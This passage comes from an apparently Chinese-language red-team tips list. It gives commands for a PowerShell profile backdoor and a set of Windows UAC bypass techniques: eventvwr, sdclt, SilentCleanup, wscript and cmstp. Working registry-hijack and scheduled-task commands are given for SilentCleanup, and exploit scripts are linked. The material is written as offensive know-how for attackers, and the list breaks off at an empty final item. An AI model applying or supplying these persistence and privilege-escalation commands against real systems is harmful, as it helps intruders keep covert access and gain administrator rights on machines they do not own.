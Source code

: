 ```
New-Item -Path $profile -Type File –Force
```

修改配置文件内容，添加后门：

```
$string = 'Start-Process "cmd.exe"'
$string | Out-File -FilePath "C:\Users\a\Documents\WindowsPowerShell\Microsoft.PowerShell_profile.ps1" -Append
```

From:

https://rastamouse.me/2018/03/a-view-of-persistence/

#### Tips 31. UAC绕过

方法1：use eventvwr.exe and registry hijacking

适用：Win7，Win8.1，Win 10

https://github.com/3gstudent/UAC-Bypass/blob/master/Invoke-EventVwrBypass.ps1

参考：

《Study Notes of WMI Persistence using wmic.exe》

《Userland registry hijacking》

方法2：use sdclt.exe

适用Win10

参考：《Study Notes of using sdclt.exe to bypass UAC》

方法3：use SilentCleanup

适用Win8,Win10

```
reg add hkcu\Environment /v windir /d "cmd /K reg delete hkcu\Environment /v windir /f &amp;&amp; REM "
schtasks /Run /TN \Microsoft\Windows\DiskCleanup\SilentCleanup /I
```

参考：《Study Notes of using SilentCleanup to bypass UAC》

方法4：use wscript.exe

只适用于Win7

https://github.com/EmpireProject/Empire/blob/master/data/module_source/privesc/Invoke-WScriptBypassUAC.ps1

参考：《Empire中的Invoke-WScriptBypassUAC利用分析》

方法5：use cmstp.exe

https://msitpros.com/?p=3960

适用于Win7

方法5：修改环境变量，劫持高权限.Net程序
